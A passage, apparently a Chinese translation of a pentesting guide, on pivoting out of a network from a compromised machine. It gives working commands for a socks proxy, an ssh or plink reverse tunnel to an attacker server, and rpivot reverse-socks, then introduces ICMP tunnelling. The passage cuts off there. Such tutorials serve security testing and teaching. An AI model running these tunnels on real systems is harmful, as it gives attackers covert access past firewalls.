 ```sh
socks -p31337
```

在接收方（攻击者的机器）上创建一个单独的用户。

```sh
adduser sshproxy
```

这个用户必须是低权限的，不应该有 shell 权限。毕竟，你不想被反向渗透，你呢？:)编辑 /etc/passwd 并将 shell 切换到 /bin/false。它应该是这样的：

```sh
root:x:0:0:root:/root:/bin/bash
...
sshproxy:x:1000:1001:,,,:/home/sshproxy:/bin/false
...
```

现在使用 `-R` 标志连接到新创建的用户的服务器。Linux 系统：

```sh
ssh sshproxy@your_server -R 31337:127.0.0.1:31337
```

对于 Windows，你将需要首先上传 [plink.exe](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)。这是一个 putty 的控制台版本。运行它：

```sh
plink.exe sshproxy@your_server -R 31337:127.0.0.1:31337
```

`-R` 标志允许你绑定服务器端的端口。到此端口的所有连接都将被中继到客户端上的指定端口。这样我们就可以在客户端运行 3proxy socks 服务（受感染的机器）并通过 ssh`-R` 标志访问攻击者主机上的这个端口。

### Rpivot

这是我最喜欢穿越 NAT 连接的方法。[Rpivot](https://github.com/artkond/rpivot) 是一个反向 socks 代理工具，可以让你通过 socks 代理隧道化流量。它连接回你的机器，并绑定一个 socks 代理。它的工作方式与 `ssh -D` 很像，但方向相反。服务器端：

```sh
python server.py --proxy-port 1080 --server-port 9999 --server-ip 0.0.0.0
```

客户端：

```sh
python client.py --server-ip <ip> --server-port 9999
```

结果，一个 socks4 代理服务将被绑定在服务器端的 1080 端口。

## 从内部网络泄漏

这是另一种情况。比方说，你的社会工程学表演最终让你进入了内部网络。你的连接受限，并且能够在受感染的计算机上执行命令。当然，如果互联网直接路由，而不是用做防火墙，你可以凭借任何上述技术。但如果你不那么幸运，还是有办法把你的出路转出来。

### ICMP 隧道

如果 icmp 流量被允许到外部网络，那么很可能你可以建立一个 icmp 隧道。缺点是你需要在目标系统上拥有 root/administrator 权限，因为有必要使用原始套接字。检查这个工具 - <http://code.gerade.org/hans/> 。我个人从来没有尝试过在 Windows 上运行它。它在 Linux 上非常有效。服务器端命令（攻击者的机器）：
